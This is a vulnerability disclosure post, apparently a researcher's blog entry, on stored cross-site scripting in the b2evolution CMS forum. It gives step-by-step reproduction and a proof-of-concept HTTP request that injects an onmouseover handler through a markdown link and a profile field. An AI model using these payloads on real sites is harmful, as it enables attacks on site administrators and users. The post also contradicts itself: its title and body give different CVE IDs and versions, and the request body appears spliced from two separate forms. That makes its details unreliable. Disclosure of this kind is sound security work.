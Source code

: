 ```yaml
---
layout: post
title: B2evolution v6.4.7 forum XSS [CVE-2016-6821]
---
```


发现者: 陈瑞琦 

发现日期: 2016-08-11

下载地址: [b2evolution](http://b2evolution.net/downloads/)

作者: b2evolution.net

作者通知日期: 2016-08-11

作者联系手段: http://b2evolution.net/?disp=msgform

CVE-ID：CVE-2016-7149

**描述:**

b2evolutioe is a content and community management system written in PHP and backed by a MySQL database. It is distributed as free software under the GNU General Public License.
b2evolution originally started as a multi-user multi-blog engine when Fran?ois Planque forked b2evolution from version 0.6.1 of b2/cafelog in 2003.[2] A more widely known fork of b2/cafelog is WordPress. b2evolution is available in web host control panels as a "one click install" web app.[3](Wiki)

**细节:** 

B2evolutioes stored XSS in b2evolution version 6.7.5

Any user can post a forum with some evil code in it.

And when the admin see the forum, the page is lack of filter to protect the admin.

Step 1 : Register a user of the web-site, active the user by mail.

Step 2 : Post a forum with some thing like 
<pre><code>
[test_forum_xss](http://test.forum.xss"onmouseover="alert(1)"on="1 "test_forum_xss")
</code></pre>
Step 3 : Save the changes

Step 4 : Any user view the forum, when the mouse over the content, the XSS code runs.

**PoC:**

`code`
<pre><code>
POST /b2evolution/htsrv/item_edit.php HTTP/1.1
Host: 192.168.204.130
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.204.130/b2evolution/index.php/forums/?disp=edit&cat=17
Cookie: session_b2evo_192_168_204_130=41_UqjtnJWp3oJZWVMtpznHzh4zgKxvBvTR; session_b2evo=87_j6i55FblKwr7rWFbheuTwjRaLbiN6ghM
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 636

post_title=test_forum_xss&content=%5Btest_forum_xss%5D%28http%3A%2F%2Ftest.forum.xss%22onmouseover%3D%22alert%281%29%22on%3D%221+%22test_forum_xss%22%29%0D%0A&renderers_displayed=1&renderers%5B%5D=b2evMark&renderers%5B%5D=b2evWiLi&renderers%5B%5D=b2evGMco&renderers%5B%5D=b2evALnk&renderers%5B%5D=evo_videoplug&renderers%5B%5D=b2WPAutP&post_category=17&post_extracats%5B%5D=17&actionArray%5Bcreate%5D=&crumb_item=IT6Hs70o5KE9J0kgz9nmWNnAhCfW4qeo&ctrl=items&blog=5&post_ID=0&redirect_to=http%3A%2F%2F192.168.204.130%2Fb2evolution%2Findex.php%2Fforums%2F%3Fdisp%3Dedit&preview=0&more=1&preview_userid=8&item_typ_ID=6&post_status=community
edited_user_login=kevino&edited_user_firstname=kevino&edited_user_lastname=kevino&edited_user_nickname=kevino&edited_user_gender=M&edited_user_ctry_ID=&edited_user_rgn_ID=&edited_user_subrg_ID=&edited_user_city_ID=&edited_user_age_min=&edited_user_age_max=&organizations%5B%5D=&uf_38=kevino&uf_39=kevino&uf_40=kevino&uf_41=https%3A%2F%2Ftwitter.com%2Fkevino%22onmouseover%3D%22alert%281%29%22onerror%3D%221&uf_42=https%3A%2F%2Ffacebook.com%2Fkevino&uf_43=http%3A%2F%2Fkevino.net%2Fkevino&new_field_type=3&actionArray%5Bupdate%5D=Save+Changes%21&crumb_user=CQ7LjBDKmMin8zqBDl050nNEbmINmIGi&user_tab=profile&identity_form=1&user_ID=8&blog=1&orig_user_ID=8&12_3=4_56

</code></pre>

**Fix:**

https://github.com/b2evolution/b2evolution/commit/9a4ab85439d1b838ee7b8eeebbf59174bb787811
